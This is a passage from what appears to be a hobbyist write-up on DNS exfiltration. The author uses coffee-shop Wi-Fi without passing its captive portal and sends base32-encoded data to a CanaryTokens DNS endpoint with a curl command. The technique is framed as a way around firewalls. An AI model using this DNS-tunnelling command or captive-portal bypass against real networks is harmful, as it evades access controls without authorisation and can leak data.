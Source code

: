 While this is typically used to bypass poorly-configured firewalls for data exfiltration, I can also take advantage of this technique to sneak our wardriving gps data **into** the network as well!  

!["DNS Exfiltration"](img/dns-exfil.png)

Thanks to poor ingress filtering, I discovered that most of my nearby open networks allowed me to resolve DNS requests without "fully connecting" through the captive portal!

## CanaryTokens as a GPS Database
Hosting my own web server & infrastructure for DNS Exfiltration would be a pain in the ass, but luckily [CanaryTokens](https://https://canarytokens.org), an awesome free honeypot solution, offers a [DNS Token](https://canarytokens.org) service that makes it extremely simple to exfiltrate our data to an online dashboard!

To try this service out, I connected to my local coffee shop Wi-Fi from my laptop without entering my info into the captive portal, and used my phone to generate a DNS token, which gave me a unique url in the format `<dns-token-here>.canarytokens.org`.

In order to exfiltrate data to this token, [CanaryTokens specifices](https://docs.canarytokens.org/guide/dns-token.html) we prepend a random 2 digit number with `G`, and a base32 encoded subdomain - so I used an online converter to translate `meow123` to base 32: `NVSW65ZRGIZQ` and made a request to the following url with [curl]():
```
curl NVSW65ZRGIZQ.G69.<dns-token-here>.canarytokens.org
```